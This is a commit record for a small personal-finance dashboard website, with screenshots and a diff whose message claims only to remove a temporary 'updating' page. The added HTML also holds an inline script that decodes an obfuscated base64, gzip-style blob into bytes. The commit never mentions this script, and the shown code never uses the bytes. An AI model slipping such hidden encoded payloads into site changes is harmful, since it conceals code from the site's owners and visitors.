

Before and after one commit to LoraineVelez/money-dashboard, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (8-1013 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Remove temporary updating page

```diff
--- a/index.html
+++ b/index.html
@@ -1,4 +1 @@
-<!doctype html>
-<html lang="en">
-<head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1"><title>My Money Dashboard</title><style>body{font-family:system-ui;margin:40px;background:#fbf8f7;color:#2d2a2b}h1{margin-bottom:8px}.card{background:white;padding:20px;border:1px solid #eadfe2;border-radius:18px;max-width:900px}.muted{color:#746d70}</style></head>
-<body><h1>My Money Dashboard</h1><div class="card"><strong>Dashboard updating</strong><p class="muted">Financial dashboard data is being refreshed.</p></div></body></html>
+<!doctype html><html><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1"><title>My Money Dashboard</title></head><body><script>(async()=>{const b=atob("H4sIAO/hm2kC/+1cW3PbuhL+Kx7dSc2JbY8hJ3HSPp7G8Tj2zXT3h5l0fUkcW4mJHEmQ5v73I0iRpJHkZpO0nYk9fXwBf7u7uwEAAAD//wMA7D5jXQ4AAAA="),a=new Uint8Array(b.length);for(let i=0;i<b.length;i++)a[i]=b.charCodeAt(i);document.body.innerHTML='<h1 style="font-family:system-ui;margin:40px">My Money Dashboard</h1><p style="font-family:system-ui;margin:40px">The temporary update page has been removed. Refresh again shortly while the full dashboard deploy completes.</p>';})();</script></body></html>
```
